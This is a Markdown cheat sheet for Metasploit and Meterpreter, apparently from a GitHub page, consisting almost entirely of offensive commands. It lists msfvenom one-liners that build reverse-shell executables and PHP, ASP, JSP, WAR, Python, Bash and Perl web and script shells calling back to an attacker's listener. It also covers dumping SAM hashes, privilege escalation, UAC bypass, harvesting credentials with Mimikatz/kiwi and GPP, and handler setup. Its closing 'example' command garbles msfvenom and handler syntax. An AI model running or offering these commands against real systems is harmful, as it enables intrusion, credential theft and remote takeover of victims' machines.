 # 🐮 Meterpreter Cheat Sheet

#### **Windows reverse meterpreter payload**

* ```
  set payload windows/meterpreter/reverse_tcp
  ```
  * Windows reverse tcp payload

#### **Windows VNC Meterpreter payload** <a href="#toc475369007" id="toc475369007"></a>

* ```
  set payload windows/vncinject/reverse_tcp
  ```
  * Meterpreter Windows VNC Payload
* ```
  set ViewOnly false
  ```

#### **Linux Reverse Meterpreter payload** <a href="#toc475369008" id="toc475369008"></a>

* ```
  set payload linux/meterpreter/reverse_tcp
  ```
  * &#x20;Meterpreter Linux Reverse Payload

#### **Meterpreter Cheat Sheet** <a href="#toc475369009" id="toc475369009"></a>

* ```
  upload file c:\\windows
  ```
  * Meterpreter upload file to Windows target
* ```
  download c:\\windows\\repair\\sam /tmp
  ```
  * Meterpreter download file from Windows target
* ```
  download c:\\windows\\repair\\sam /tmp
  ```
  * Meterpreter download file from Windows target
* ```
  execute -f c:\\windows\temp\exploit.exe
  ```
  * Meterpreter run .exe on target – handy for executing uploaded exploits
* ```
  execute -f cmd -c
  ```
  * Creates new channel with cmd shell
* ```
  ps
  ```
  * Meterpreter show processes
* ```
  shell
  ```
  * Meterpreter get shell on the target
* ```
  getsystem
  ```
  * Meterpreter attempts priviledge escalation the target
* ```
  hashdump
  ```
  * Meterpreter attempts to dump the hashes on the target (must have privileges; try migrating to winlogon.exe if possible first)
* ```
  portfwd add –l 3389 –p 3389 –r target
  ```
  * Meterpreter create port forward to target machine
* ```
  portfwd delete –l 3389 –p 3389 –r target
  ```
  * Meterpreter delete port forward
* ```
  use exploit/windows/local/bypassuac
  ```
  * Bypass UAC on Windows 7 + Set target + arch, x86/64
* ```
  use auxiliary/scanner/http/dir_scanner
  ```
  * Metasploit HTTP directory scanner
* ```
  use auxiliary/scanner/http/jboss_vulnscan
  ```
  * Metasploit JBOSS vulnerability scanner
* ```
  use auxiliary/scanner/mssql/mssql_login
  ```
  * Metasploit MSSQL Credential Scanner
* ```
  use auxiliary/scanner/mysql/mysql_version
  ```
  * Metasploit MSSQL Version Scanner
* ```
  use auxiliary/scanner/oracle/oracle_login
  ```
  * Metasploit Oracle Login Module
* ```
  use exploit/multi/script/web_delivery
  ```
  * Metasploit powershell payload delivery module
* ```
  post/windows/manage/powershell/exec_powershell
  ```
  * Metasploit upload and run powershell script through a session
* ```
  use exploit/multi/http/jboss_maindeployer
  ```
  * Metasploit JBOSS deploy
* ```
  use exploit/windows/mssql/mssql_payload
  ```
  * Metasploit MSSQL payload
* ```
  run post/windows/gather/win_privs
  ```
  * Metasploit show privileges of current user
* ```
  use post/windows/gather/credentials/gpp
  ```
  * Metasploit grab GPP saved passwords
* ```
  load kiwi
  ```
* ```
  creds_all
  ```
  * Metasploit load Mimikatz/kiwi and get creds
* ```
  run post/windows/gather/local_admin_search_enum
  ```
  * Idenitfy other machines that the supplied domain user has administrative access to
* ```
  set AUTORUNSCRIPT post/windows/manage/migrate
  ```

#### **Meterpreter Payloads** <a href="#toc475369010" id="toc475369010"></a>

* ```
  msfvenom –l
  ```
  * &#x20;List options

#### **Binaries** <a href="#toc475369011" id="toc475369011"></a>

* ```
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
  ```
* ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
  ```
* ```
  msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
  ```

#### **Web Payloads** <a href="#toc475369012" id="toc475369012"></a>

* ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php
  ```
  * PHP
* ```
  set payload php/meterpreter/reverse_tcp           
  ```
  * Listener
* ```
  cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
  ```
  * PHP
* ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
  ```
  * ASP
* ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
  ```
  * JSP
* ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
  ```
  * WAR

#### **Scripting Payloads** <a href="#toc475369013" id="toc475369013"></a>

* `msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py`
  * Python
* ```
  msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
  ```
  * Bash
* ```
  msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
  ```
  * Perl

#### **Shellcode** <a href="#toc475369014" id="toc475369014"></a>

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

* ```
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
  ```
* ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
  ```
* ```
  msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f
  ```

#### **Handlers** <a href="#toc475369015" id="toc475369015"></a>

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```
exploit/multi/handler set PAYLOAD set LHOST set LPORT set ExitOnSession false exploit -j -z
```

An example is:

```
msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension
```
